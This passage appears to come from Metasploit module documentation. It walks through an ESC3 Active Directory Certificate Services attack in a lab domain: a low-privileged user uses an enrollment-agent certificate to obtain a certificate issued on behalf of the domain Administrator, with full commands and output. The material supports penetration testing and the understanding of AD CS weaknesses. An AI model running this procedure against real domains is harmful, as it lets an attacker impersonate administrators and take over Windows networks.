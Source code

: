 Next we'll try use this certificate to request another certificate on behalf of a different user. For this stage we need to specify another certificate that is vulnerable to the ESC3_TEMPLATE_2 attack vector that we are able to enroll in. We will use the `User` template for this:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
PFX => /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF DAFOREST\\Administrator
ON_BEHALF_OF => DAFOREST\Administrator
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  ESC3-Template1                  yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216174221_default_unknown_win
                  dows.ad.cs_027866.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normaluser                      no        The password for the specified username
   SMBUser        normal                          no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216174559_default_unknown_windows.ad.cs_570105.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```
